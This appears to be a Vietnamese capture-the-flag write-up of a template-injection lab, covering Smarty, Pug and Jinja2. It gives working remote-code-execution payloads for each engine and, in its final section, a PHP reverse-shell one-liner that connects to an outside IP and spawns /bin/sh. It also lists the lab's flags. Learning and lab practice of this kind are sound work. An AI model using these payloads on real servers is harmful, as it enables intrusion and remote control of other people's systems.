 # SSTI 

- Server-side Template Injection(SSTI) là lỗ hổng xảy ra khi người dùng nhập vào dữ liệu tích hợp không an toàn vào phía Server-side template. Cho phép kẻ tấn công tiêm và thực thi mã tùy ý trên máy chủ.

- `Dynamic Content Generation`: Công cụ mẫu thay thế trình giữ chỗ bằng dữ liệu thực, cho phép ứng dụng tạo các trang HTML động. Quá trình này có thể bị khai thác nếu dữ liệu đầu vào của người dùng không được khử trùng đúng cách.

- `User input as Template code`:  Khi đầu vào của người dùng được coi là một phần của mã mẫu, chúng có thể đưa logic có hại vào đầu ra được hiển thị, dẫn đến SSTI.

- Luông tấn cồng SSTI:

![image](https://github.com/user-attachments/assets/c0f8559e-2f9d-45cd-9580-721a7e268546)

- Khi dữ liệu đầu vào của người dùng được nhứng trực tiếp vào template mà không có validation hay escaping đúng cách, kẻ tấn công có thể tạo ra các payload làm thay đổi hành vi của template.

- Template engine là một phần không thể thiếu của phát triển web hiện đại, cho phép các nhà phát triển tạo nội dung HTML động bằng cách kết hợp các mẫu với dữ liệu. Sau đây là một số template engine được sử dụng phổ biến nhất:

  - Jinja2 : Rất phổ biến trong các ứng dụng Python, được biết đến với khả năng biểu đạt và kết xuất mạnh mẽ.
 
  - Twig : Công cụ tạo mẫu mặc định cho Symfony trong PHP , Twig cung cấp một môi trường mạnh mẽ với các thiết lập mặc định an toàn.
 
  - Pug/Jade : Được biết đến với cú pháp mẫu HTML tối giản và gọn gàng, Pug/Jade rất phổ biến trong giới các nhà phát triển Node.js.
 
# Challenge

## PHP-Smarty

- Một số phương thức định dạng cơ bản:

  - {$tile|upper} viết hoa $title
 
  - {$tile|lower} viết thường $title
 
  - {$tile|strip_tags} Định dạng bỏ kí tự đặc biệt $title
 
  - {system("ls")} hoặc {system("dir")} sẽ gọi trực tiếp hàm system của php

![image](https://github.com/user-attachments/assets/970e1035-4227-4d6f-918e-d9de4fab7aec)

![image](https://github.com/user-attachments/assets/07aaf07d-d4d0-4019-98de-06481cd019b7)

![image](https://github.com/user-attachments/assets/215a2db9-d568-4277-a4d7-65b6101b40ac)

- flag: `THM{0739eea78f5c7f4b1690737c6258e38b}`

## NodeJS-Pug

- Các lỗ hổng bảo mật của Pug chủ yếu xuất phát từ khả năng nội suy mã JavaScript trong các biến mẫu. Tính năng này, được thiết kế để tạo nội dung động, có thể bị khai thác một cách độc hại nếu dữ liệu đầu vào của người dùng được nhúng vào mẫu mà không được khử trùng đúng cách

- Các điểm dễ bị tổn thương chính:

  - Nội suy JavaScript : Pug cho phép nhúng JavaScript trực tiếp vào các mẫu bằng cách sử dụng dấu ngoặc nhọn nội suy #{}. Nếu dữ liệu đầu vào của người dùng được nội suy mà không có quá trình khử trùng thích hợp, có thể dẫn đến việc thực thi mã tùy ý.

  - Thoát mặc định : Pug cung cấp chức năng thoát tự động cho một số đầu vào nhất định, chuyển đổi các ký tự như <, >, và &thành các thực thể HTML tương đương để ngăn chặn các cuộc tấn công XSS. Tuy nhiên, hành vi mặc định này không giải quyết được tất cả các vấn đề bảo mật tiềm ẩn, đặc biệt là khi xử lý nội suy không thoát !{}hoặc các tình huống nhập phức tạp.

![image](https://github.com/user-attachments/assets/4fcafb72-fa27-4e69-9fb6-62c122cc2d9c)

- Vì Pug cho phép nội suy JavaScript, sau đó chúng ta có thể sử dụng tải trọng `#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}`

  - root.process truy cập đối tượng toàn cục từ Node.js trong Pug
 
  - mainModule.require('child_process') yêu cầu module child_process trong Node.js

  - spawnSync('ls'): Chạy lệnh ls (liệt kê file) trên hệ thống.

  - .stdout: Lấy đầu ra của lệnh ls để hiển thị trên template.

![image](https://github.com/user-attachments/assets/b7076076-5f5a-46f0-8ee0-81ab3288a6af)

  - Chức năng này `spawnSync` được thiết kế để thực thi lệnh trong shell và cung cấp khả năng kiểm soát chi tiết đối với đầu vào và đầu ra của lệnh. Đây là một phần của child_processmô-đun Node.js, cho phép Node.js thực thi các quy trình khác trên hệ thống nơi nó đang chạy.

    - spawnSync(command, [args], [options])

  - command : lệnh

  - args: mảng các đối số chuỗi để truyền vào lệnh.

  - options:  Đây là tham số tùy chọn có thể chỉ định nhiều tùy chọn khác nhau như thư mục làm việc, biến môi trường, đầu vào, đầu ra, thời gian chờ, v.v.

![image](https://github.com/user-attachments/assets/bdae10b2-4991-4787-918e-87ac677c2483)

![image](https://github.com/user-attachments/assets/6bee6da5-47e2-4228-855a-07e86c4fce6e)

- flag: `THM{1f8c3b32ad3217e84c145398bae00876}`

## Python-Jinja2

- Các điểm dễ bị tổn thương chính:

  - Đánh giá biểu thức : Jinja2 đánh giá các biểu thức trong dấu ngoặc nhọn {{ }}, có thể thực thi mã Python tùy ý nếu được tạo ra một cách độc hại.

  - Kế thừa và nhập mẫu : Các tính năng nâng cao như kế thừa mẫu và nhập macro có thể bị sử dụng sai mục đích để thực thi mã không mong muốn, dẫn đến tiết lộ thông tin hoặc thao túng máy chủ.

![image](https://github.com/user-attachments/assets/fc718ea8-595d-49e4-84b8-d0d4e40d558f)

- `"".__class__.__mro__[1].__subclasses__()`: lấy danh sách tất cả các lớp con của `object`

![image](https://github.com/user-attachments/assets/0a415e30-a9d4-49bb-9eb8-6985047cab1a)

![image](https://github.com/user-attachments/assets/4aaabe70-a2aa-4ba2-b174-074394a99e8c)

- `{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}`

- `__class__.__mro__[1].__subclasses__()[157]` lấy phần tử 157, ở đây là `<class 'subprocess.Popen'>` `.__repr__.__globals__` → Truy cập vào namespace toàn cục của class.

- `.get("__builtins__").get("__import__")` Lấy module builtins, nơi chứa các hàm gốc của Python như open(), eval(), exec(), import(). `.get("__import__")("subprocess")` → Dùng __import__("subprocess") để import module subprocess

- `.check_output("ls")` chạy lệnh ls

![image](https://github.com/user-attachments/assets/af0a6ecc-e02c-438f-bdfc-8baa0345d55d)

- Cú pháp check_out(): `subprocess.check_output([command, arg1, arg2])`
  
![image](https://github.com/user-attachments/assets/65092b84-fe6c-4978-9824-c2e59373a770)

- flag: `THM{ecc43642dd6934d37c69598174e6e126}`

## Extra-Mile

- Tạo form, chuyển đến Views và add new group tạo group với payload {{2*2}} và update:

![image](https://github.com/user-attachments/assets/f98d70b2-b742-4a45-ae2e-675b8adc9398)

![image](https://github.com/user-attachments/assets/bec5baa1-b32c-4b04-9e7a-ff175ea0f5a9)

- nhấn update:

![image](https://github.com/user-attachments/assets/87a49563-e889-449d-ac2b-a7993ce5afc5)

- chèn {{exec('id')}}
  
![image](https://github.com/user-attachments/assets/bbab8633-05a6-4e1d-a046-832c7751f967)

![image](https://github.com/user-attachments/assets/00090a83-4c88-4f26-9178-7bccf6279c9c)

![image](https://github.com/user-attachments/assets/4baf45f5-2b34-4aaa-aa18-4122a970ee84)

![image](https://github.com/user-attachments/assets/2c75df31-753f-4680-972d-1c7244bbbe7a)

==> có thể thực thi php

- tạo reverse shell bằng php: `{{exec("php -r  '\$sock=fsockopen(\"10.11.129.40\",4444);\$proc=proc_open(\"/bin/sh\",[0=>\$sock,1=>\$sock,2=>\$sock],\$pipes);'")}}'`

![image](https://github.com/user-attachments/assets/817d7e63-2887-4338-a6d7-0ca26b49644e)

![image](https://github.com/user-attachments/assets/a9fcf658-0fc8-48a7-aa01-8a327632dbdd)

![image](https://github.com/user-attachments/assets/2a14d750-4b05-411d-bf52-c8effce2b1e8)

- flag: `THM{w0rK1Ng_sST1}`




